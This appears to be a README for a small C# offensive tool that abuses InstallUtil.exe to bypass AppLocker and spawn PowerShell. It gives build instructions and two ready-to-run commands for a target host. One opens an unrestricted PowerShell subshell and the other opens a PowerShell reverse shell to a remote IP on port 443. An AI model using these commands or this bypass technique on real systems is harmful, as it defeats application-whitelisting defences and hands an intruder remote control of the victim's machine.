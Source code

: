 # Build the binary

The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...
IDE - Visual Studio 2015. You should be able to easily compile and build the binary with the default configuration Debug/X64. You only may to fix the System.Management.Automation reference that is located in the GAC folder

```
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

# Usage

Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass AppLocker. Once you've compiled the binary, issue the below command on the target host.
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe

```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-)):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
